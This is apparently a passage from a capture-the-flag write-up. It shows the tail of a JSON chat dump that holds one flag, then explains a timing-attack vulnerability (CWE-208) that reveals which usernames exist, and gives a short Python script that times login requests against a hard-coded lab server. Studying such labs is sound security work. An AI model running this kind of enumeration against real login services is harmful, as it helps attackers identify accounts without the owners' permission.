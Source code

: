 ```json
                    "content": "here https://shorturl.at/jrw89",
                    "escaped": false
                },
                {
                    "senderUid": "4b45ab1bf065c7fa",
                    "content": "might need a password flag5:a13df93481bc5303",
                    "escaped": false
                },
                {
                    "senderUid": "ecaae826ea4f80a9",
                    "content": "Please don't contact me anymore",
                    "escaped": false
                }
            ]
        }
    }
}
```

This conversation contains the flag: `flag5:a13df93481bc5303`



## Flag 6

**Vulnerability: Timing Attack**

* CWE-208 (Time and State, reflecting the security weakness where the timing of computation or state conditions can be used to discern or influence state)

The server’s response times vary based on whether the submitted credentials correspond to an existing user account. For users with an account, the response time is longer (~3100 ms) compared to those without an account (~80 ms). This difference can be exploited to deduce the existence of user accounts.

Using a simple python script, I iterated through each username, attempting a login with a generic or incorrect password. The script measured the time taken for the server to respond to each login request:

```python
import requests
import time

usernames = ["michelle.obama", "barack.obama", "hillary.clinton", "george.w.bush", "jane.doe", "sam.altman", "mira.murati", "olivier.lemer"]
url = "http://185.143.102.102:8080/login"

for username in usernames:
    start_time = time.time()
    response = requests.post(url, data={"username": username, "password": "password"})
    elapsed_time = (time.time() - start_time) * 1000  # Convert to milliseconds

    print(f"Username: {username}, Response Time: {elapsed_time:.2f} ms")
```
